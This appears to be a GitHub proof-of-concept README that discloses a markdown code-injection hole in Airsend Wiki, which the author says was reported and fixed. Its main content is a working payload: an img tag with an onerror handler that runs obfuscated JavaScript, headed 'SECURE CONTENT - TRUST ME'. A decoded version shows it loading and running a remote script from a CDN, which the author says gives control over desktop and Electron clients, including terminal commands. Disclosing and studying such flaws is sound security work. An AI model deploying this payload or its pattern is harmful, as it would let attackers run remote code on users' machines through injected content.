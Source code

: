 ⚠️⚠️⚠️ THIS SECURITY BREACH WAS REPORTED AND IS ALREADY FIXED, HENCE THE PUBLIC REPOSITORY ⚠️⚠️⚠️

# Airsend Wiki MD code injection attack


For testing purposes I encoded the url to this script hosted here on a image tag and inserted in a index in Airsend Wiki markdown.

## Markdown content

```
## SECURE CONTENT - TRUST ME
<img src=x onerror=eval(String.fromCharCode(99,111,110,115,116,32,106,115,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,106,115,46,116,121,112,101,32,61,32,39,116,101,120,116,47,106,97,118,97,115,99,114,105,112,116,39,59,32,106,115,46,115,114,99,32,61,32,39,104,116,116,112,115,58,47,47,99,100,110,46,115,116,97,116,105,99,97,108,108,121,46,105,111,47,103,104,47,109,105,99,104,101,108,100,112,99,97,114,108,111,115,47,97,105,114,115,101,110,100,45,106,115,45,105,110,106,101,99,116,105,111,110,45,112,111,99,47,53,48,98,50,57,99,56,57,98,50,56,55,55,50,53,97,98,53,52,49,55,51,50,101,101,98,54,98,54,53,51,98,51,99,54,50,54,48,50,102,47,105,110,100,101,120,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,106,115,41,59))>
```



## Decoded onerror content
```
// Using a cdn to provide static js from github with the correct MIME type
const js = document.createElement('script'); js.type = 'text/javascript'; js.src = 'https://cdn.statically.io/gh/micheldpcarlos/airsend-js-injection-poc/50b29c89b287725ab541732eeb6b653b3c62602f/index.js'; document.body.appendChild(js);
```


# Result
The script is loaded and the attacker gain control over any instance running on desktop, if on Electron app we gain control over node apis and gain system control, even runnig a terminal command.

Tests using ios mobile didn't show any issue.

<img width="1912" alt="image" src="https://user-images.githubusercontent.com/29731180/155525895-6c7b57c7-7697-4a5a-9819-b7bf8f8e27db.png">






